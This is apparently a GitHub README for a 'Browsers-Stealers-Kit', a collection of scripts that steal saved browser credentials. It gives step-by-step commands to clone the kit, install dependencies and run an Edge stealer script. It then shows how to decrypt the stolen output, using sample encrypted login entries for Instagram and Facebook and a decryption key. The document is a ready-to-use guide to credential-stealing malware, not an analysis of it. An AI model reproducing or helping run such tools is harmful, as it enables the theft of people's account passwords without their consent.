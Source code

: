 # Browsers-Stealers-Kit
Collection of browser stealers divided into two parts.

## POC

1. Clone the repository:

```bash
git clone https://github.com/Py-Us3r/Browsers-Stealers-Kit.git
cd Browsers-Stealers-Kit
```

2. Install dependencies:

```bash
pip install pycryptodome pypiwin32
```

3. Run the stealer script:

```bash
python edge_stealer.py
```

4. Copy output and run AES_decrypt:

```bash
python AES_decrypt.py "1|https://www.instagram.com/|testing|763130bdf32f7f15f0e0d465d1d9efddfea8cfe8c9888528fc747d2465e229b1332a015a5e0e|2|https://es-es.facebook.com/login/|test|763130aa62f05764735ecd6085e36c67150040d12d683a74c7c1e8e2bd6c6ab180c812||01fdfe3de68aa38ae2a417d0853264dae9daf48eae6be2cd72eb6b105eb77ac7"
```

